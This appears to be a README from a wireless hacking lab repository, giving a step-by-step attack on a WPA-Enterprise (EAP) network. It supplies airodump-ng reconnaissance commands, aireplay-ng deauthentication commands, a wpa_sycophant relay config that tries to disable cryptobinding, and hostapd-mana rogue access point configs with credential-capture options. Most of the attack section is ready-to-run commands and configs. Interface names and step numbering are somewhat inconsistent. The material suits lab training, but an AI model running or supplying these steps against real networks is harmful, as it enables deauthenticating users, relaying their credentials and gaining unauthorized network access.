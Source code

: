 # Eap network

This network is vulnerable to heeeaps of attacks!

WITH the wpa_sycophant attack you'll need to run wpa_sycophant before hostapd-mana (I think, it just works this way so idk). Also you'll have to compile wpa_sycophant yourself as the one in the kali repos doesn't work!

## Tools

- [airmon-ng](https://linux.die.net/man/1/airmon-ng)
- [airodump-ng](https://linux.die.net/man/1/airodump-ng)
- [wpa_supplicant](https://linux.die.net/man/8/wpa_supplicant)
- [hostapd-mana]
- [wpa_sycophant]

## Reconnaissance

1. Set the `wlan2` interface into monitor mode

```bash
sudo airmon-ng start wlan0
```

> Note: Do not run `airmon-ng check kill` as it will kill important processes required to run was

2. Conduct reconnaissance using the `wlan2mon` interface to find the target open network

```bash
sudo airodump-ng wlan0mon --band abg --wps --manufacturer
```

Here is a breakdown of the above command
```bash
sudo               # Run the command as `root`
  airodump-ng      # The program we want to run
    wlan2mon       # The wireless interface
    --band abg     # Hop to channels in the a, b, and g frequency bands
    --wps          # List Wireless Protected Setup (WPS) information
    --manufacturer # Display the manufacturer of devices (based on their OUI)
```

3. Focus in on the target network to gather more information

Make sure you note down:
- The bssid
- The mac address of the target client

```bash
sudo airodump-ng wlan0mon -c 11
```

While you're doing this, open wireshark and deauth the client to capture the certificate to mimic:

```bash
sudo aireplay-ng -0 0 -a <ap bssid> -c <client mac> wlan0mon
```

3. Setup and run wpa_sycophant

```bash
sudo wpa_sycophant -i wlan1 -c sycophant.conf
```

sycophant.conf
```conf
network={
  # The SSID you would like to relay and authenticate against. 
  ssid="was-enterprise"
  scan_ssid=1
  key_mgmt=WPA-EAP
  # Do not modify
  identity=""
  anonymous_identity=""
  password=""
  # This initialises the variables for me.
  # -------------
  eap=PEAP
  # Read https://w1.fi/cgit/hostap/plain/wpa_supplicant/wpa_supplicant.conf for help with phase1 options. 
  # This attempts to force the client not use cryptobinding. 
  phase1="crypto_binding=0 peapver=0"
  phase2="auth=MSCHAPV2"
  # Dont want to connect back to ourselves,
  # so add your rogue BSSID here.
  bssid_blacklist=aa:bb:cc:dd:ee:ff
}
```

4. Setup and run hostapd-mana the same way that you would a normal wpa-eap rogue ap, but enable the `enable_sycophant` and `sycophant_dir` options

```bash
sudo hostapd-mana hostapd-mana.conf
```

hostapd.eap_user
```
*     PEAP,TTLS,TLS,FAST
"t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
```

hostapd-mana.conf
```bash
interface=wlan0
ssid=was-enterprise
channel=11

hw_mode=g

# WPA2 PSK with CCMP
wpa=2
wpa_key_mgmt=WPA-EAP
wpa_pairwise=CCMP TKIP

macaddr_acl=0 
auth_algs=1
own_ip_addr=127.0.0.1
ieee8021x=1
eap_server=1
eapol_version=1

# Replace these certs with your own generated ones. Use eap_ap.sh in adhoc/ to generate certs for you.
eap_user_file=./hostapd.eap_user
ca_cert=/etc/hostapd-mana/certs/ca.pem
server_cert=/etc/hostapd-mana/certs/server.pem
private_key=/etc/hostapd-mana/certs/server.key
private_key_passwd=whatever

mana_wpe=1
mana_eapsuccess=1
mana_eaptls=1
ieee80211n=1

# Enable wpa_sycophant
enable_sycophant=1
sycophant_dir=/tmp/
```

5. Deauth the client you want to connect to your rogue AP

```bash
sudo aireplay-ng -0 0 -a <ap bssid> -c <client mac> wlan0mon
```
